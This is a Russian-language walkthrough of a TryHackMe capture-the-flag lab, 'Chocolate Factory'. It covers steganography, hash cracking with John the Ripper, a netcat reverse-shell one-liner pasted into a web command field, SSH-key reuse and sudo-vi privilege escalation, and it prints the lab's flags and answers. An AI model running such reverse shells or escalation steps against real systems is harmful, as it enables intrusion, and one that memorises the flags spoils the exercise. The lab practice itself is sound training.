# Chocolate Factory

> Полное прохождение лаборатории. Материал содержит спойлеры и предназначен только для легальной учебной практики.

**Лаборатория:** [открыть комнату на TryHackMe](https://tryhackme.com/room/chocolatefactory)

## Ход работы

Привет! Начнем!

После того как нам дали ip-адрес машины (у меня 10.112.149.135, у вас будет другой), сразу перейдем на него в браузере и параллельно запустим сканирование nmap:

```bash
nmap -A 10.112.149.135
```

В браузере сразу же видим форму авторизации, попробовал стандартные по типу admin:admin, admin:password и т.д., они не подходят. В исходном коде страницы ничего интересного.











Смотрим вывод nmap на 21 порту и видим, что возможен анонимный вход на сервер FTP, к тому же, там находится файл gum_room.jpg, скачаем его на нашу машину:



Вот как он выглядит:



Я использовал стандартные команды для проверки файлов на стеганографию – file, exiftool, steghide. Командой steghide мне удалось извлечь из фото файл b64.txt:





Видим закодированный текст, предположительно в base64, загрузим его в CyberChief и расшифруем:



Похоже, мы нашли учетные данные пользователя Charlie:

charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/`

Сохраним хэш на свою машину в файл, я назвал его hash.txt. Хэш пароля будем расшифровывать утилитой John the Ripper, используя словарь rockyou.txt:

```bash
john -w=~/Downloads/rockyou.txt hash.txt
```



2. What is Charlie's password? - cn7824

Также, при анализе вывода nmap, на 113 порту я заметил интересное сообщение:



Я перешел по пути /key_rev_key и мне автоматически загрузился файл. При его анализе нас поздравляют с найденным ключом:





- Enter the key you found! - b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

Итак, у нас есть пара логин:пароль – charlie:cn7824. Пробуем зайти с ними по SSH, но пароль не подходит.



Теперь пробуем войти в форму авторизации, которую нашли ранее на порту 80:


Реквизиты подошли и мы видим на странице строку для ввода команд. Некоторое время я экспериментировал с командами и нашел домашнюю директорию пользователя Charlie, где находилось 3 файла – teleport, teleport.pub и user.txt. Откроем каждый:

```bash
cat /../../home/charlie/teleport
```



```bash
cat /../../home/charlie/teleport.pub
```



Файл user.txt не открывается из-за отсутствия прав для просмотра (сейчас мы пользователь www-data).

Попробуем загрузить обратный шелл PentestMonkey в данное поле и поставим слушатель на нашей машине командой nc -lnvp 1234:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -I 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Обратный шелл получен:



Я снова перешел в домашнюю директорию пользователя Charlie и просмотрел права флага user.txt, у нас их по прежнему нет:



Ранее мы нашли приватный ssh-rsa ключ в файле teleport.pub. Мы можем использовать его для входа по ssh под именем Charlie:

```bash
ssh -i rsa_private_key.txt charlie@10.114.147.168
```

Теперь мы стали Charlie. Открываем наш пользовательский флаг user.txt:



4. Enter the user flag - flag{cd5509042371b34e4826e4838b522d2e}

Теперь нужно повысить привилегии. Первым делом я всегда использую команду sudo -l. Она показала, что мы можем использовать редактор vi для повышения привилегий. Заходим на GTFOBins:



Вводим команду со скрина выше, не забываем про sudo вначале:



Теперь мы root! В папке /home/root найдем файл root.py. Командой python root.py запускаем файл, и введя ключ из задания №1 мы получим root флаг!

5. Enter the root flag - flag{cec59161d338fef787fcb4e296b42124}
